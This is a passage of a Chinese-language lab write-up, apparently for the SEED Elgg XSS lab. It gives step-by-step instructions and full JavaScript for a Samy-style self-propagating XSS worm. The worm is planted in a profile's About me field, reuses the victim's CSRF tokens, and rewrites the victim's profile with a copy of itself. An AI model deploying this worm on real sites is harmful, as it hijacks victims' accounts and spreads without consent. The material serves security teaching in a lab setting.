 查看alice的主页，briefdescription已经被修改

![image-20230530232239728](assets/image-20230530232239728.png)

## 2.3 构造XSS蠕虫

### 2.3.1 插入XSS

使用samy登录

修改samy 的profile

在其中的About me字段，**先点击Edit HTML**，添加如下内容

```html
<script id='worm'>
    setTimeout(() => {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var guid = elgg.session.user.guid;
        fetch('http://www.xsslabelgg.com/action/profile/edit', {
            credentials: 'include',
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: new URLSearchParams({
                __elgg_ts: ts,
                __elgg_token: token,
                guid: guid,
                briefdescription: "Samy is my hero",
                description: "<script id='worm'>" + document.getElementById('worm').innerHTML + "<\/script>"
            })
        })
    }, 3000)
</script>
```